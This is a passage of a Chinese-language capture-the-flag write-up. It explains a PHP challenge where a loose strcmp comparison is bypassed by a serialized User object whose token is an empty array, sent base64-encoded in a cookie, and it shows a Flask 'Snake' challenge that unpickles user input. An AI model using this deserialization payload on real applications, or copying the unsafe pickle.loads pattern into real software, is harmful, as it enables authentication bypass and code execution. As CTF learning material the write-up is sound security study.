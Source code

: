 ```php
        <div class="container">
            <div class="row justify-content-center align-items-center">
                <div class="col-md-6">
                    <div class="col-md-12">
                        <h3 class="text-center text-info">Do you know?</h3>
                        <h3 class="text-center text-info">PHP's mascot is an elephant!</h3>
                        Hello, <b><?= $user->name ?></b>!
                        <?php if ($user->canReadFlag()): ?>
                            This is your flag: <b><?= $flag ?></b>
                        <?php else: ?>
                            Your token is not sufficient to read the flag!
                        <?php endif; ?>
                        <a href="?logout">Logout!</a>
                    </div>
                </div>
            </div>
        </div>
    <?php endif ?>
</body>
```
比較重要的是 
```php
function canReadFlag() {
        return strcmp($flag, $this->token) == 0;
    }
```
>只要讓 strcmp($flag, $this->token) == 0 就好啦，那 strcmp 已知的問題就是他 compare 陣列隨然會噴 Warning，但結果會是 NULL，而這裡是用兩個 = 不是三個，所以 NULL == 0，把下面這段 base64 encode 後放回 Cookie 就完成啦。

>`O:4:"User":2:{s:4:"name";s:1:"a";s:11:"\x00User\x00token";a:0:{}}`
看了別人的解法 有些是通靈 有些差不多 就是觸發錯誤 拿到flag
### Snake 
一進去就可以看到原始碼
```python
from flask import Flask, Response, request
import pickle, base64, traceback
Response.default_mimetype = 'text/plain'
app = Flask(__name__)
@app.route("/")
def index():
    data = request.values.get('data')
    if data is not None:
        try:
            data = base64.b64decode(data)
            data = pickle.loads(data)
            if data and not data:
                return open('/flag').read()
            return str(data)
        except:
            return traceback.format_exc()
    return open(__file__).read()
```
知道`if data not data`一定過不去
